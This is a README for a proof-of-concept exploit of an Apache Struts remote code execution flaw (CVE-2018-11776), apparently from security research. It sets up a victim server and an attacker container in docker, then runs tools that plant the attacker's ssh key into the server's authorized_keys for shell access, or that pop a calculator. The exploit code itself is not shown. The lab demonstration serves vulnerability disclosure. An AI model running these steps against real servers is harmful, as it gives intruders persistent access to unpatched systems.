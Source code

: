 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

We have created two versions of the PoC. The first version enables the attacker to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify the PoC to do that. The second version of the PoC pops a calculator.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -e DISPLAY=$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix -i -t struts-server
```

Note: the `--publish`, `-e`, and `-v` command line arguments are optional. The `--publish` argument exposes port 8080 so that we can open the Struts showcase app in a web-browser. The `-e` and `-v` arguments enable the container to access X11, which is necessary for popping a calculator.

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, use `copykey` to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
./src/copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!

Alternatively, you can start a calculator like this:

```
./src/startcalc http://172.16.0.10:8080/struts2-showcase
```
